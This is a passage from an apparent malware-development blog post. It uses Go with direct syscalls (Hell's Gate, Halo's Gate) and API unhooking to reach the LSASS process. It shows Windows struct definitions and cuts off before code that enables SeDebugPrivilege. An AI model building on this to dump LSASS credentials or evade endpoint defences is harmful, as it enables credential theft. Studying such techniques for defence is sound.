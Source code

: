 In this post we also will be using my own malware development library which has tons of useful functions but today we just will use it to implement **direct syscall** via Hell’s Gate and Halo’s Gate techniques. However the rest of the program like API unhooking will be done by hand.

In case you don’t know too much about this techniques you can get a really good overview of them [here](https://github.com/am0nsec/HellsGate) and [here](https://blog.sektor7.net/#!res/2021/halosgate.md)

I won’t dig this to deep but here we define required structures, most of them are used to interact with processes or session tokens later:

```go
// Necessary structures
type ClientID struct {
  UniqueProcess uintptr
  UniqueThread  uintptr
}

type ObjectAttrs struct {
  Length                   uintptr
  RootDirectory            uintptr
  ObjectName               uintptr
  Attributes               uintptr
  SecurityDescriptor       uintptr
  SecurityQualityOfService uintptr
}

type WindowsProcess struct { // Windows process structure
  ProcessID       int     // PID
  ParentProcessID int     // PPID
  Exe             string  // Cmdline executable (e.g. explorer.exe)
}

// Privileges and attributes
type Luid struct {
  lowPart  uint32
  highPart int32
}

type LuidAndAttributes struct {
  luid       Luid
  attributes uint32
}

type TokenPrivileges struct {
  privilegeCount uint32
  privileges     [1]LuidAndAttributes
}
```

As I said before we need to have **SeDebugPrivilege** enabled in order to interact with LSASS.EXE process so let’s code a function which enables it using some Windows calls like `LookupPrivilegeValueW` and `AdjustTokenPrivileges`:
